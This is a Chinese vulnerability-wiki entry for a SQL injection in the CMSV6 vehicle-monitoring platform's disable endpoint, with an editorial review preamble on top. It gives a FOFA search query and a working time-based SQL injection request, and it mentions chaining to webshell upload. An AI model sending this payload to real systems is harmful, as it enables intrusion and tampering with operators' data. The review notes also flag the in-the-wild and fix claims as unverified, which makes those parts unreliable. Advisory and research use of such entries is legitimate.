

## 核对与使用边界

- 分类更正：CMSV6 在本文指车载定位/视频监控行业平台，不是通用内容管理系统。其设备、调度或记录接口的业务状态和权限需按本文具体路由判断，不能只按名称 CMS 归类。

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：disable;downloadLogger.action suffixauthbypassclaimed; idsSQL;DBFILE/writeconfigforRCE

- **结论使用边界（1）**：CMSV6是监控管理平台不是内容CMS，应移行业应用并统一通天星目录。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：disable动作可能停用安全员数据，时延PoC有状态变更风险。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：分号后downloadLogger.action涉及路径解析/权限链，正文未解释，不可只看SQL点。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（4）**：fofa残缺、版本缺失、在野已知无依据；读绝对路径不够写shell，还需DBFILE/secure_file_priv/PHP或JSP解析。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（5）**：有厂商下载页但无具体安全版。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 通天星CMSV6车载定位监控平台 disable SQL注入漏洞

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

# 漏洞描述

该漏洞是由于通天星CMSV6车载定位监控平台 /edu_security_officer/disable接口处未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。该漏洞可配合任意文件读取获取网站绝对路径写入后门文件进行远程代码执行。

影响范围

通天星CMSV6车载定位监控平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/808gps/"

POC/EXP：

```http
GET /edu_security_officer/disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```





# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

官方已发布新版本修复漏洞，建议尽快访问官网（http://www.g-sky.cn/list-70-1.html）或联系官方售后支持获取版本升级安装包或补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
